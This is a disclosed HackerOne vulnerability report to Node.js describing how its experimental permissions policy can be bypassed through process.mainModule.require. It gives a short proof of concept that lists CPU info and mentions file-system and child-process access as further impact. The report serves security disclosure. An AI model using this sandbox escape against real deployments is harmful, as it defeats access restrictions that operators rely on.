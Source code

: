 # Permissions policies can be bypassed via process.mainModule

## Report Details
- **Report ID**: 1747642
- **URL**: https://hackerone.com/reports/1747642
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-10-24T11:29:58.157Z
- **Disclosed**: 2023-03-19T17:12:01.356Z

## Reporter
- **Username**: goums
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** 
Permissions policies module can be bypassed via `process.mainModule.require`

**Description:**
Permission policies allow to run a script with a specific set of authorized node js built-in modules.
However, the script could access non authorized modules by calling `process.mainModule.require()`

## Steps To Reproduce:

  1. Create `escape.js` file:
```
console.log(process.mainModule.require("os").cpus());
```
  2. Create `policy.json` file:
```
{
  "onerror": "exit",
  "scopes": {
    "file:": {
      "integrity": true,
      "dependencies": {}
    }
  }
}
```

  3. Run:
```
node --experimental-policy=policy.json escape.js
```
4. You will see your os cpus listed in the console even though the `escape.js` file does not have the permission to import the node`os` module

## Impact: 
Permission policies are supposed to enforce imported modules to a limited whitelist.
This vulnerability allow a script to include any non-whitelisted module.

If you modify `escape.js` to use top level `require` statement, like this:
```
const os = require("os");
console.log(os.cpus());
```
and run again:
```
node --experimental-policy=policy.json escape.js
```
you'll now see this error:
```
Error [ERR_MANIFEST_DEPENDENCY_MISSING]: Manifest resource escape.js does not list os as a dependency specifier for conditions: require, node, node-addons
```
which is the expected behavior and should be enforced as well when using `process.mainModule.require`

## Impact

Any project that uses permission policies for arbitrary code execution are vulnerable to sandbox escaping.
This example show a non-critical permission gain (listing the machine cpu), but an attacker could do much more damage by accessing internal file system, running child processes, ...

## Attachments
No attachments
